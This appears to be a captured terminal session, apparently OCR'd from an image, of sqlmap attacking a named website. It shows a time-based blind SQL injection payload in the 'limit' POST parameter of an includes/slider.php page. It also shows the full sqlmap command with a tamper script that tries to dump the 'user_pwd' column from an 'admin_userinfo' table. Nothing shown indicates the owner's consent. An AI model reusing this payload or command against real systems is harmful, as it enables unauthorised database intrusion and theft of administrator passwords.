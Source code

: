 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 17:01:12

[17:01:12] [INFO] loading tamper module 'between'
[17:01:12] [INFO] resuming back-end DBMS 'mysql' 
[17:01:12] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[17:01:12] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[17:01:12] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[17:01:12] [INFO] fetching entries of column(s) 'user_pwd' for table 'admin_userinfo' in database 'qaisare_com'
[17:01:12] [INFO] fetching number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[17:01:12] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[17:01:20] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[17:01:21] [WARNING] unable to retrieve the number of column(s) 'user_pwd' entries for table 'admin_userinfo' in database 'qaisare_com'
[17:01:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 17:01:21

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C user_pwd --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 17:05:43
